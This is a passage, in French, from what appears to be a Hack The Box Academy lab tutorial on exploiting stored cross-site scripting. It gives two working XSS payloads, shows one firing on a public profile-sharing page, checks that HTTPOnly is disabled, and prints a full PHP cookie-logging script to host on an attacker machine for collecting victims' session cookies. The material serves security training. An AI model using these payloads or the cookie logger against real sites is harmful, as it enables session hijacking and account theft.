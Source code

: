 Dans les deux champs restants, spécifions les deux charges utiles suivantes.

Code : javascript

```
"><img src=x onerror=confirm(1)>

```

Code : javascript

```
"><img src=x onerror=alert(1)>

```

Nous devrons mettre à jour le profil en appuyant sur "Enregistrer" pour soumettre nos charges utiles.

![image](https://academy.hackthebox.com/storage/modules/153/21.png)

Le profil a été mis à jour avec succès. Nous remarquons qu'aucune charge utile n'est déclenchée, cependant! Souvent, le code de charge utile ne sera pas appelé/exécuté tant qu'une autre fonctionnalité de l'application ne le déclenchera pas. Allons à "Partager", car c'est la seule autre fonctionnalité dont nous disposons, pour voir si l'une des charges utiles soumises y est récupérée. Cette fonctionnalité renvoie un profil accessible au public. L'identification d'une vulnérabilité XSS stockée dans une telle fonctionnalité serait idéale du point de vue d'un attaquant.

C'est bien le cas ! La charge utile spécifiée dans le champ *Pays* a été déclenchée !

![image](https://academy.hackthebox.com/storage/modules/153/22.png)

Vérifions maintenant si *HTTPOnly* est "off" en utilisant Web Developer Tools.

![image](https://academy.hackthebox.com/storage/modules/153/23.png)

*HTTPOnly* est désactivé !

* * * * *

Obtention de cookies de session via XSS
---------------------------------------

Nous avons identifié que nous pouvions créer et partager des profils accessibles au public qui contiennent nos charges utiles XSS spécifiées.

Créons un script de journalisation des cookies (enregistrez-le sous `log.php`) pour vous entraîner à obtenir le cookie de session d'une victime en partageant un profil public XSS vulnérable à stocké. Le script PHP ci-dessous peut être hébergé sur un VPS ou sur votre machine attaquante (selon les restrictions de sortie).

Code : php

```
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.google.com/");
exit;
?>

```
